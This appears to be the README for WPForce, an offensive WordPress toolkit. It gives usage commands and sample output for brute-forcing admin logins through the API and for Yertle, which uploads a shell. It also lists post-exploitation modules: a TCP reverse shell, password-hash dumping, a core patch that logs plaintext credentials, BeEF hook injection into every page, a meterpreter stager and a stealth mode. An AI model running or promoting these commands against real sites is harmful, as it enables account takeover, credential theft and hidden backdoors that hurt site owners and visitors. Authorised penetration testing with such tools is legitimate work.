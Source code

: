 # WPForce - Wordpress Attack Suite

## ABOUT:
WP Force is a suite of Wordpress Attack tools.  Currently this contains 2 scripts - WPForce, which brute forces logins via the API, and Yertle, which uploads shells once admin credentials have been found.  Yertle also contains a number of post exploitation modules.

For more information, visit the blog post here: 
https://www.n00py.io/2017/03/squeezing-the-juice-out-of-a-compromised-wordpress-server/
## FEATURES:
* Brute Force via API, not login form bypassing some forms of protection
* Can automatically upload an interactive shell
* Can be used to spawn a full featured reverse shell
* Dumps WorPress password hashes
* Can backdoor authentication fuction for plaintext password collection
* Inject BeEF hook into all pages
* Pivot to meterpreter if needed


## INSTALL:
```
Yertle requires the requests libary to run.
http://docs.python-requests.org/en/master/user/install/
```

## USAGE:
```
python wpforce.py -i usr.txt -w pass.txt -u "http://www.[website].com"

   ,-~~-.___.       __        __ ____   _____
  / |  x     \      \ \      / /|  _ \ |  ___|___   _ __  ___  ___
 (  )        0       \ \ /\ / / | |_) || |_  / _ \ | '__|/ __|/ _ \.
  \_/-, ,----'  ____  \ V  V /  |  __/ |  _|| (_) || |  | (__|  __/
     ====      ||   \_ \_/\_/   |_|    |_|   \___/ |_|   \___|\___|
    /  \-'~;   ||     |
   /  __/~| ...||__/|-"   Brute Force Attack Tool for Wordpress
 =(  _____||________|                 ~n00py~

Username List: usr.txt (3)
Password List: pass.txt (21)
URL: http://www[website].com
--------------------------
[xxxxxxxxxxxxx@gmail.com : xxxxxxxxxxxxx] are valid credentials!  - THIS ACCOUNT IS ADMIN
--------------------------
--------------------------
[xxxxxxxxxxxxx@icloud.com : xxxxxxxxxxxx] are valid credentials!
--------------------------
 100% Percent Complete
All correct pairs:
{'xxxxxxxxxxxxx@icloud.com': 'xxxxxxxxxxxxx', 'xxxxxxxxxxxxx@gmail.com': 'xxxxxxxxxxxxx'}

 -h, --help            show this help message and exit
  -i INPUT, --input INPUT
                        Input file name
  -w WORDLIST, --wordlist WORDLIST
                        Wordlist file name
  -u URL, --url URL     URL of target
  -v, --verbose         Verbose output. Show the attemps as they happen.
  -t THREADS, --threads THREADS
                        Determines the number of threads to be used, default
                        is 10
  -a AGENT, --agent AGENT
                        Determines the user-agent
  -d, --debug           This option is used for determining issues with the
                        script.


python yertle.py -u "[username]" -p "[password]" -t "http://www.[website].com" -i
     _..---.--.    __   __        _   _
   .'\ __|/O.__)   \ \ / /__ _ __| |_| | ___
  /__.' _/ .-'_\    \ V / _ \ '__| __| |/ _ \.
 (____.'.-_\____)    | |  __/ |  | |_| |  __/
  (_/ _)__(_ \_)\_   |_|\___|_|   \__|_|\___|
   (_..)--(.._)'--'         ~n00py~
      Post-exploitation Module for Wordpress

Backdoor uploaded!
Upload Directory: ebwhbas
os-shell>



  -h, --help            show this help message and exit
  -i, --interactive     Interactive command shell
  -r, --reverse         Reverse Shell
  -t TARGET, --target TARGET
                        URL of target
  -u USERNAME, --username USERNAME
                        Admin username
  -p PASSWORD, --password PASSWORD
                        Admin password
  -li IP, --ip IP       Listener IP
  -lp PORT, --port PORT
                        Listener Port
  -v, --verbose         Verbose output.
  -e EXISTING, --existing EXISTING
                        Skips uploading a shell, and connects to existing
                        shell


```

Yertle currently contains these modules:

```
Core Commands
=============
 
Command                   Description
-------                   -----------
?                         Help menu
beef                      Injects a BeEF hook into website
exit                      Terminate the session
hashdump                  Dumps all WordPress password hashes
help                      Help menu
keylogger                 Patches WordPress core to log plaintext credentials
keylog                    Displays keylog file
meterpreter               Executes a PHP meterpreter stager to connect to metasploit
quit                      Terminate the session
shell                     Sends a TCP reverse shell to a netcat listener
stealth                   Hides Yertle from the plugins page
```
